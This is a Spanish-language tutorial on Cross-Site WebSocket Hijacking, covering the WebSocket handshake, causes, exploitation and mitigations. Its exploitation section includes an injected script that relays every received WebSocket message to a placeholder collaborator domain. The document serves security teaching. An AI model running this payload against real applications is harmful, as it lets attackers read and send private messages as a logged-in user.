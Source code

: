 ## Cross Site WebSocket Hijacking

## Introducción
Para entender esta vulnerabilidad, primero hay que tener claro que es un *WebSocket*, este es un protocolo que opera en la capa TCP, su objetivo es comunicar dos redes (sockets) de forma controlada de una forma bidireccional. 
Este protocolo se usa por ejemplo en la mensajería instantánea.
Mientras que en una petición HTTP la comunicación va en el formato mensaje-respuesta:
![http](https://www.ionos.es/digitalguide/fileadmin/DigitalGuide/Schaubilder/visual-representation-of-how-http-works.png)

En una comunicación *WebSocket* , se hace un **WebSocket Protocol Handshake**, en el que el Cliente envía una solicitud HTTP al servidor para actualizar la comunicación actual a una de tipo *WebSocket*.
```http
GET /chat HTTP/1.1
Host: server.example.com
Upgrade: websocket
Connection: Upgrade 
Sec-WebSocket-Key: x3JJHMbDL1EzLkh9GBhXDw==
Sec-WebSocket-Version: 13
Origin: http://example.com

```

- **Upgrade**: Indica que el cliente desea cambiar de HTTP a WebSocket.
- **Connection**: Debe incluir el valor "Upgrade" para señalar que la conexión se va a cambiar.
- **Sec-WebSocket-Key**: Una clave Base64 generada por el cliente, que el servidor usará para crear una respuesta de aceptación.
- **Sec-WebSocket-Version**: Indica la versión del protocolo WebSocket que el cliente puede entender. La versión más común es la 13.

Si el servidor soporta el protocolo WebSocket y acepta la solicitud de cambio de protocolo, responderá con un código de estado HTTP 101 Switching Protocols. La respuesta incluirá:
```http
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: HSmrc0sMlYUkAGmm5OPpG2HaGWk=

```

- **Upgrade**: Confirma que se realizará un cambio a WebSocket.
- **Connection**: Debe contener el valor "Upgrade".
- **Sec-WebSocket-Accept**: Este es un campo clave. El servidor crea este valor combinando la `Sec-WebSocket-Key` enviada por el cliente con una cadena específica definida por el protocolo ("258EAFA5-E914-47DA-95CA-C5AB0DC85B11"), aplicando SHA-1 a esta cadena combinada, y luego codificando el resultado con Base64. Esto sirve como prueba de que el servidor entiende la solicitud WebSocket.

A partir de ahora la comunicación será en tiempo real:
![ws](https://www.ionos.es/digitalguide/fileadmin/DigitalGuide/Schaubilder/visual-representation-of-how-websocket-works.png)

Como define [Ionos](https://www.ionos.es/digitalguide/paginas-web/desarrollo-web/que-es-websocket/), WebSocket puede entenderse como un canal de comunicación abierto, en el cual queda abierta una conexión activa tras el handshake inicial entre el cliente y el servidor. Así, el servidor también puede enviar información nueva al cliente sin que este tenga que solicitarlo previamente cada vez.

Una vez que entendemos como funciona el protocolo, ¿ en que se basa **CSWSH** ?
Esta vulnerabilidad se basa en falsificar un *WebSocket Handshake* (si esta se basa únicamente en cookies HTTP, sin protección CSRF ) para que el atacante consiga introducirse en mitad del canal de comunicación, de esta forma puede leer y enviar mensajes como un usuario legitimo.

![[Cross-Site-WebSocket-Hijacking-Diagram 1.png]]

## Causas Comunes

Las causas comunes del ataque de Cross-Site WebSocket Hijacking (CSWSH) se centran en la forma en que las aplicaciones web manejan las conexiones WebSocket y cómo se implementan las medidas de seguridad en torno a ellas. Algunas de las principales causas incluyen:

1. **Falta de Autenticación y Autorización Estricta**: Si una aplicación no verifica adecuadamente si una solicitud de WebSocket proviene de un usuario autenticado o no realiza una comprobación de autorización para cada solicitud, un atacante podría aprovechar este descuido para interceptar o manipular la comunicación WebSocket.

2. **Política de Mismo Origen (Same-Origin Policy) Incompleta para WebSockets**: A diferencia de las solicitudes HTTP tradicionales, las conexiones WebSocket no están completamente sujetas a la política de mismo origen. Esto significa que un script malicioso podría establecer una conexión WebSocket con un servidor desde un dominio diferente, lo que podría facilitar un ataque de hijacking si el servidor no verifica el origen de la conexión de manera efectiva.

3. **Configuración Incorrecta de Cookies y Sesiones**: Si las cookies de sesión se configuran sin el atributo `SameSite` (para no incluir la cookie de un sitio en solicitudes a otros sitios web distintos) o con un `SameSite` permisivo, un sitio malicioso podría realizar solicitudes a otro sitio en el contexto de la sesión del usuario, potencialmente permitiendo un ataque de hijacking a través de WebSockets.

4. **Implementaciones de Cliente y Servidor Inseguras**: Las bibliotecas o frameworks que no siguen las mejores prácticas de seguridad en la implementación de conexiones WebSocket pueden dejar a las aplicaciones vulnerables a ataques. Esto incluye la falta de encriptación (usando WS (comunicación sin cifrar) en lugar de WSS (comunicación cifrada)) o la implementación incorrecta de la lógica de autenticación y autorización.

5. **Inyección de Scripts Cross-Site (XSS)**: Si una aplicación es vulnerable a XSS, un atacante podría inyectar un script malicioso que establezca conexiones WebSocket no autorizadas. Esto podría permitir al atacante realizar acciones en nombre del usuario sin su conocimiento.


## Pasos de explotación

Como ya hemos comentado, el protocolo *WebSocket*, no viene limitado por la política CORS, lo cual permite que una web infectada , o un XSS pueda hacer un *WebSocket Handshake*, que al hacerse por vía HTTP, incluirá la cookie de la victima, haciendo que el servidor valide la conexión.
Esto hará que el atacante pueda hacerse pasar por un usuario legítimo de la comunicación, podrá tanto leer como enviar mensajes.

#### Escenario Hipotético

Imagina que tienes una aplicación de chat en tiempo real que utiliza WebSockets para comunicación bidireccional entre el cliente y el servidor. La aplicación permite a los usuarios enviar mensajes a otros usuarios en tiempo real. Sin embargo, la aplicación no verifica adecuadamente el origen de las conexiones WebSocket ni restringe las acciones basadas en sesiones autenticadas específicamente para esas conexiones.
Supongamos que tampoco se valida bien el campo de mensajes y nos encontramos con una [XSS](../XSS/), un atacante podría inyectar un código asi:
```JavaScript
<script>
websocket = new WebSocket('wss://your-websocket-URL')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
websocket.send("READY"); 
}
function handleReply(event) {
//Obtenemos los datos robados
fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
}
</script>
```

El mensaje *READY* es una especie de convención, pero este mensaje es diferente para cada servidor *WebSocket*, para ver que mensaje enviar, puedes usar BurpSuite para interceptar la comunicación y ver que mensajes se envían.
Si la aplicación de chat no verifica correctamente el origen de la solicitud ni valida que la solicitud de WebSocket se basa en una sesión autenticada válida específicamente para esa conexión, el navegador del usuario establecerá la conexión WebSocket como si fuera una solicitud legítima.
En este caso el usuario que envía el ataque forma parte de la comunicación legítima, lo que obtendrá son datos de la otra parte de la comunicación.

Si este script lo ejecutase una página web maliciosa (sin tener que haber un XSS de por medio), un tercero se metería en la comunicación, comprometiendo datos sensibles de ambas partes.


## Implicaciones

Como ya hemos comentado, las implicaciones varían dependiendo de la aplicación y el servidor que gestione el protocolo, se puede derivar a ataques como CSRF, XSS, Exfiltración de datos...


## Mitigación

Para protegerse contra el Cross-Site WebSocket Hijacking, los desarrolladores y administradores de sitios web pueden implementar varias estrategias:

- **Autenticación en el Nivel de WebSocket**: Realizar una autenticación adicional después de establecer la conexión WebSocket para verificar que el usuario y la sesión son legítimos. Esto puede incluir el uso de tokens (CSRF) de autenticación que el servidor valida antes de permitir cualquier operación a través del WebSocket.

- **Orígenes de Confianza**: Restringir las conexiones WebSocket solo a orígenes de confianza. Esto se puede lograr mediante la validación del campo `Origin` en los encabezados de solicitud de WebSocket para asegurarse de que solo se acepten conexiones de orígenes permitidos.

- **Políticas de Seguridad del Contenido (CSP)**: Implementar políticas CSP estrictas que restrinjan la ejecución de scripts solo a fuentes confiables, lo que puede ayudar a prevenir la inyección de scripts maliciosos en primer lugar.